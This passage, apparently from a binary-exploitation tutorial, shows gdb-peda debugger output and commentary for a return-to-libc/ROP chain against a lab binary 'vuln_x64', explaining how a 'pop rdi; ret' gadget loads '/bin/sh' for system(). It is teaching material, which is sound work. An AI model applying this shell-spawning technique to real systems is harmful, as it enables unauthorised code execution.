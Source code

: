 ```
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40080a <trustMeIAmAnEngineer+70>:	je     0x400811 <trustMeIAmAnEngineer+77>
   0x40080c <trustMeIAmAnEngineer+72>:	call   0x400600 <__stack_chk_fail@plt>
   0x400811 <trustMeIAmAnEngineer+77>:	leave  
=> 0x400812 <trustMeIAmAnEngineer+78>:	ret    
   0x400813 <main>:	push   rbp
   0x400814 <main+1>:	mov    rbp,rsp
   0x400817 <main+4>:	sub    rsp,0x10
   0x40081b <main+8>:	mov    DWORD PTR [rbp-0x4],edi
[------------------------------------stack-------------------------------------]
0000| 0x7ffdc2a904a8 --> 0x400903 (<__libc_csu_init+99>:	pop    rdi)
0008| 0x7ffdc2a904b0 --> 0x7f6c34de1d57 --> 0x68732f6e69622f ('/bin/sh')
0016| 0x7ffdc2a904b8 --> 0x7f6c34c9a390 (<__libc_system>:	test   rdi,rdi)
0024| 0x7ffdc2a904c0 --> 0x40080a (<trustMeIAmAnEngineer+70>:	je     0x400811 <trustMeIAmAnEngineer+77>)
0032| 0x7ffdc2a904c8 --> 0x7f6c34c75830 (<__libc_start_main+240>:	mov    edi,eax)
0040| 0x7ffdc2a904d0 --> 0x0 
0048| 0x7ffdc2a904d8 --> 0x7ffdc2a905a8 --> 0x7ffdc2a92109 ("./binaries/vuln_x64")
0056| 0x7ffdc2a904e0 --> 0x135244ca0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
gdb-peda$ 
```

We can see that all of our final payload is located on the stack.  
When executing the `ret` instruction the next value on the stack is popped and put into `RIP`.  
This will be our `pop rdi; ret` gadget.  
The top of the stack, the `RSP`, is changed accordingly to point to the next value on the stack, which is the pointer to our shell `/bin/sh` as well.  

```
[----------------------------------registers-----------------------------------]
[...]
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7ffdc2a904b0 --> 0x7f6c34de1d57 --> 0x68732f6e69622f ('/bin/sh')
RIP: 0x400903 (<__libc_csu_init+99>:	pop    rdi)
[...]
[-------------------------------------code-------------------------------------]
=> 0x400903 <__libc_csu_init+99>:	pop    rdi
   0x400904 <__libc_csu_init+100>:	ret    
   0x400905:	nop
   0x400906:	nop    WORD PTR cs:[rax+rax*1+0x0]
[------------------------------------stack-------------------------------------]
0000| 0x7ffdc2a904b0 --> 0x7f6c34de1d57 --> 0x68732f6e69622f ('/bin/sh')
0008| 0x7ffdc2a904b8 --> 0x7f6c34c9a390 (<__libc_system>:	test   rdi,rdi)
0016| 0x7ffdc2a904c0 --> 0x40080a (<trustMeIAmAnEngineer+70>:	je     0x400811 <trustMeIAmAnEngineer+77>)
0024| 0x7ffdc2a904c8 --> 0x7f6c34c75830 (<__libc_start_main+240>:	mov    edi,eax)
0032| 0x7ffdc2a904d0 --> 0x0 
0040| 0x7ffdc2a904d8 --> 0x7ffdc2a905a8 --> 0x7ffdc2a92109 ("./binaries/vuln_x64")
0048| 0x7ffdc2a904e0 --> 0x135244ca0 
0056| 0x7ffdc2a904e8 --> 0x400813 (<main>:	push   rbp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
gdb-peda$ 
```
